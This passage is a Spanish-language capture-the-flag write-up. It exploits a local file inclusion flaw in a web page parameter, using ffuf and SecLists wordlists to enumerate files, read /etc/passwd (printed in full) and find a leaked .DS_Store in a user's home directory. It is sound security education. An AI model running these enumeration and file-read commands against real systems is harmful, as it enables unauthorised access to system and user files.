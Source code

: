 Se constata que las rutas relativas en el parámetro **page** no proporcionan los resultados esperados, dado que las partículas `../` se reemplazan por `.."`. La enumeración de otras listas con rutas y nombres conocidos de ficheros devuelve numerosos resultados. En este caso, como el prefijo “El contenido del archivo es: ” se compone de 29 bytes, hay que descartar además las respuestas con esa longitud exacta, en lugar de errores 404 que nunca van a tener lugar.

```text
ffuf -u http://52.213.87.125:7788/page.php?page=FUZZ -w SecLists/Discovery/Web-Content/LinuxFileList.txt -fs 29 -mc all
ffuf -u http://52.213.87.125:7788/page.php?page=FUZZ -w SecLists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -fs 29 -mc all
```

En presencia de una vulnerabilidad LFI, la lectura exitosa del fichero **/etc/passwd** revela los nombres de usuario existentes en el sistema, aparte de los asociados a servicios y demonios, y las rutas de sus directorios *home*, si procede. Si además los permisos de los directorios no están ajustados de forma correcta, será factible leer ficheros alojados en ellos. Otros archivos de configuración en **/etc** pueden ser también objetivos tentadores, según la finalidad pretendida.

```text
El contenido del archivo es: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sysadmin:x:1000:1000::/home/sysadmin:/bin/sh
```

Por tanto, existe un usuario **sysadmin** cuyo directorio *home* es **/home/sysadmin**. El primer impulso consiste en solicitar ficheros de configuración de *shell* como **.bashrc**, **.bash_profile**, **bash_logout** o incluso **.bash_history**. Se puede obtener su texto. Sin embargo, **.bash_history** no existe o está vacío, y los demás no muestran ningún cambio con respecto a sus contenidos habituales. Se confía en que vuelva a sonar la campana con una nueva enumeración de nombres típicos de ficheros.

```text
ffuf -u http://52.213.87.125:7788/page.php?page=/home/sysadmin/FUZZ -w SecLists/Discovery/Web-Content/raft-large-files.txt -fs 29 -fc 400 -mc all
```

Colecciones más pequeñas como **raft-small** o **raft-medium** en lugar de **raft-large** habrían sido igual de eficaces, pero se ha preferido ser exhaustivo, dado que se trata de un ejercicio lúdico. Efectivamente, el premio mayor recae en [.DS_Store](https://en.wikipedia.org/wiki/.DS_Store), un tipo de fichero muy frecuente en sistemas Mac que a veces aparece en otras máquinas a través de archivos comprimidos o copias remotas recursivas. Lo genera Finder, el componente de Mac OS que implementa el navegador de ficheros y la interfaz gráfica usual, para almacenar metadatos. Su formato no está documentado de manera oficial, aunque se conoce parcialmente su estructura. No es habitual encontrarlo en servidores web. Sin duda, su presencia puede convertirse en [un problema de revelación de información ya conocido desde antiguo](https://www.intego.com/mac-security-blog/possible-security-issue-involving-ds_store-files-on-web-servers/ "Possible Security Issue Involving .DS_Store Files on Web Servers - Intego: The Mac Security Blog").
